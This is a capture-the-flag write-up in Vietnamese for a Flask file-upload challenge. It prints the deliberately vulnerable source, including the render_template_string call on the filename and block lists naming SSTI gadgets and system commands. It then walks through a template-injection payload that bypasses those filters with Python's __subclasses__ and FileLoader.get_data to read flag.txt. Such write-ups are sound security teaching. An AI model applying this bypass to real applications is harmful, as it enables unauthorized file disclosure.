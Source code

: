 # Web/file uploader 1 [NEW]

![image-20230614015143644](./assets/image-20230614015143644.png)

Giao diện trang web là một trang upload file bình thường, ngoài ra không có chức năng nào khác

![image-20230614015241633](./assets/image-20230614015241633.png)

Đọc source code 

```python
UPLOAD_FOLDER = './static'
ALLOWED_EXTENSIONS = {'pdf', 'png', 'jpg', 'jpeg', 'gif'}


def get_fileext(filename):
    fileext = filename.rsplit('.', 1)[1].lower()
    if '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS:
        return fileext
    return None

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method != 'POST':
        return redirect(url_for('profile'))
    
    # check if the post request has the file part
    if 'file' not in request.files:
            return redirect(url_for('profile'))
    file = request.files['file']

    # If the user does not select a file, the browser submits an empty file without a filename.
    if file.filename == '':
        return redirect(url_for('profile'))
    
    fileext = get_fileext(file.filename)

    file.seek(0, 2) # seeks the end of the file
    filesize = file.tell() # tell at which byte we are
    file.seek(0, 0) # go back to the beginning of the file

    if fileext and filesize < 10*1024*1024:
        if session['ext'] and os.path.exists(os.path.join(UPLOAD_FOLDER, session['uuid']+"."+session['ext'])):
            os.remove(os.path.join(UPLOAD_FOLDER, session['uuid']+"."+session['ext']))
        session['ext'] = fileext
        filename = session['uuid']+"."+session['ext']
        file.save(os.path.join(UPLOAD_FOLDER, filename))
        return redirect(url_for('profile'))
    else:
        template = f"""
            {file.filename} is not valid because it is too big or has the wrong extension
        """
        l1 = ['+', '{{', '}}', '[2]', 'flask', 'os','config', 'subprocess', 'debug', 'read', 'write', 'exec', 'popen', 'import', 'request', '|', 'join', 'attr', 'globals', '\\'] 

        l2 = ['aa-exec', 'agetty', 'alpine', ... , 'zypper']
        

        for i in l1:
            if i in template.lower():
                print(template, i, file=sys.stderr)
                template = "nice try"
                break
        matches = re.findall(r"['\"](.*?)['\"]", template)
        for match in matches:
            print(match, file=sys.stderr)
            if not re.match(r'^[a-zA-Z0-9 \/\.\-]+$', match):
                template = "nice try"
                break
            for i in l2:
                if i in match.lower():
                    print(i, file=sys.stderr)
                    template = "nice try"
                    break
        return render_template_string(template)
```

Ban đầu mình dự đoán bài này là lỗi upload file nhưng mà nhìn vào các blacklist `l1, l2` để filter `template` thì mình nghi ngờ đến lỗi SSTI

Fuzzing các kiểu với file upload nhưng mà không thành công, mình quay qua phân tích source code để thử khai thác với lỗi SSTI

```python
		template = f"""
            {file.filename} is not valid because it is too big or has the wrong extension
        """        
    	l1 = ['+', '{{', '}}', '[2]', 'flask', 'os','config', 'subprocess', 'debug', 'read', 'write', 'exec', 'popen', 'import', 'request', '|', 'join', 'attr', 'globals', '\\'] 

        l2 = ['aa-exec', 'agetty', 'alpine', ... , 'zypper']
		for i in l1:
            if i in template.lower():
                print(template, i, file=sys.stderr)
                template = "nice try"
                break
        matches = re.findall(r"['\"](.*?)['\"]", template)
        for match in matches:
            print(match, file=sys.stderr)
            if not re.match(r'^[a-zA-Z0-9 \/\.\-]+$', match):
                template = "nice try"
                break
            for i in l2:
                if i in match.lower():
                    print(i, file=sys.stderr)
                    template = "nice try"
                    break
        return render_template_string(template)
```

Mình có thể control được `filename` nên khả năng xảy ra lỗi SSTI là khá cao, `filename` được đưa vào `template`, đầu tiên là kiểm tra với blacklist `l1`, trong danh sách này là các hàm, toán tử thường được sử dụng trong khai thác SSTI

```python
matches = re.findall(r"['\"](.*?)['\"]", template)
```

`matches` được khởi tạo bằng `re.findall` regex với `template`, kết quả của `matches` là các đoạn nằm trong dấu nháy đơn, nháy kép ví dụ như `'longkd719', "KCSC", 'KMA',...` 

 ```python
         for match in matches:
             print(match, file=sys.stderr)
             if not re.match(r'^[a-zA-Z0-9 \/\.\-]+$', match):
                 template = "nice try"
                 break
             for i in l2:
                 if i in match.lower():
                     print(i, file=sys.stderr)
                     template = "nice try"
                     break
 ```

Với từng kết quả của `matches` tiếp tục kiểm tra `re.match(r'^[a-zA-Z0-9 \/\.\-]+$', match)` phải khớp với regex này. Tiếp tục kiểm tra với blacklist `l2`, danh sách này là tập hợp các lệnh thực thi hệ thống

Thử fuzz với `filename="{% print(7*7.7) %}"` thì mình có kết quả

![image-20230614021152054](./assets/image-20230614021152054.png)

Tới đây thì khả năng cao mình cần phải bypass blacklist để khai thác SSTI, cụ thể là RCE hoặc là đọc file `flag.txt`

Nhưng mà vì chương trình đã filter gần hết các object mình thường dùng rồi nên mình cần phải tìm một class nào đó có thể thực hiện được mục đích của mình. Như ở đây mình đã có thể liệt kê được các `__subclasses__`, mình cần phải tìm một trong số class này

![image-20230614021505925](./assets/image-20230614021505925.png) 

Mình có tìm được một nguồn [【WEB】SSTI | 狼组安全团队公开知识库 (wgpsec.org)](https://wiki.wgpsec.org/knowledge/ctf/SSTI.html) có liệt kê một số class 

```
75 <class '_frozen_importlib._ModuleLock'>
76 <class '_frozen_importlib._DummyModuleLock'>
77 <class '_frozen_importlib._ModuleLockManager'>
78 <class '_frozen_importlib._installed_safely'>
79 <class '_frozen_importlib.ModuleSpec'>
91 <class '_frozen_importlib_external.FileLoader'>
92 <class '_frozen_importlib_external._NamespacePath'>
93 <class '_frozen_importlib_external._NamespaceLoader'>
95 <class '_frozen_importlib_external.FileFinder'>
103 <class 'codecs.IncrementalEncoder'>
104 <class 'codecs.IncrementalDecoder'>
105 <class 'codecs.StreamReaderWriter'>
106 <class 'codecs.StreamRecoder'>
128 <class 'os._wrap_close'>
129 <class '_sitebuiltins.Quitter'>
130 <class '_sitebuiltins._Printer'>
```

Tiếp tục tìm với các class này để tìm cách khai thác [web安全-SSTI模板注入漏洞_ssti漏洞_Pattie.的博客-CSDN博客](https://blog.csdn.net/weixin_61956136/article/details/126076747)

![image-20230614022007463](./assets/image-20230614022007463.png)

Ở đây người ta nói rằng sử dụng `<class '_frozen_importlib_external.FileLoader'>` để đọc file

Tìm class này ở index 99 `filename="{% print([].__class__.__mro__[1].__subclasses__()[99]) %}"`

![image-20230614022256523](./assets/image-20230614022256523.png)

payload

```
filename="{% print([].__class__.__mro__[1].__subclasses__()[99].get_data(0,'flag.txt')) %}"
```

![image-20230614022433830](./assets/image-20230614022433830.png)

`Flag: SEE{y0U_6yPa55Ed_FuNny_55t1_f1lTer5}`